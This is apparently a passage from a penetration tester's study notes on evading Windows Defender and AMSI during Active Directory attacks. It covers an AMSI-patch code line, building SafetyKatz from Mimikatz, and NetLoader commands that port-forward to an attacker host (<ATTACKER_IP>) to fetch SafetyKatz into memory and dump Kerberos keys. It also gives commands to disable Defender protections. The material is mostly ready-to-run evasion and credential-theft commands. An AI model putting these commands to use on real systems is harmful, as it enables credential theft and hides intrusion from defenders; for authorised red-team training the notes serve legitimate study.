 ```powershell
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

## Bypassing AV Signatures

- use [AMSITrigger](https://github.com/RythmStick/AMSITrigger) for identifying what part of a script is being detected
- use [DefenderCheck](https://github.com/matterpreter/DefenderCheck) to see what in the code is detected by Defender

### Running SafetyKatz

1. Downloaded latest Mimikatz version and [Out-CompressedDLL.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)
2. Run `Out-CompressedDll mimikatz.exe > out.txt`
3. Replace `compressedMimikatzString` value with contents of out.txt
    
    
4. Change byte size
    
    

### NetLoader

- used for loading binary from filepath or URL
- patches AMSI and ETW before running payload
- runs payloads from memory
- DO NOT load a remote binary directly through a URL path that you own, rather use port forwarding to load a binary remotely by using the loopback address as a proxy
    - otherwise, this triggers Defender’s behavior-based detection: executable downloaded from remote web server

```powershell
# First, configure a port for port forwarding
$null | winrs -r:follow-0xd4y "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectadddress=<ATTACKER_IP>"

# Then, load the remote binary using NetLoader
$null | winrs -r:follow-0xd4y C:\PATH\TO\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

- make sure to put NetLoader on target disk prior to running the aforementioned commands with `echo F | xcopy C:\PATH\TO\Loader.exe \\follow-0xd4y\C$\PATH\TO\SAVE\Loader.exe`

## Other

- with local admin access, run `Set-MpPreference -DisableRealtimeMonitoring $true` to temporarily disable Defender
    - note that it is more silent (and preferred) to use `Set-MpPreference -DisableIOAVProtection $true` as this will specifically only target AV
    - disabling defender through command line does not work for Windows 10 and 11, Windows Server 2022, Windows Server 2019, and Windows Server  version 1803 or later
- avoid communicating with the DC as much as possible
